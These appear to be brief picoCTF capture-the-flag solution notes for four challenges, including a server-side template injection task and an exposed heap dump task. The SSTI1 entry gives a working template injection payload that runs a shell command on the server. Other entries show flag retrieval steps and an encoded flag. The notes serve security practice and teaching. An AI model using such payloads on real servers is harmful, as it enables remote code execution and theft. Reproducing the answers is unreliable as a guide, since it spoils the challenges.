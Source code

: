 


## vault-door-training

Password is within the file, Put it within picoCTF{...}
```
cat VaultDoorTraining.java
```



## SSTI1

Server-Side Template Injection (SSTI)
```
{{7*7}}
```
```
{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
```



## head-dump

Click on `# API-Documentation`

This opens
```
http://verbal-sleep.picoctf.net:56550/api-docs/
```

Now It says there is a `/heapdump`
```
http://verbal-sleep.picoctf.net:56550/heapdump
```

This prompts to download heapdump of the website

Now 
```
cat heapdump-1743316813402.heapsnapshot  | grep "picoCTF"
```



## WebDecode

Navigate to About page
```
http://titan.picoctf.net:59394/about.html
```

Now open Inspect mode

See notify_true
```
cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDJjZGNiNTl9
```
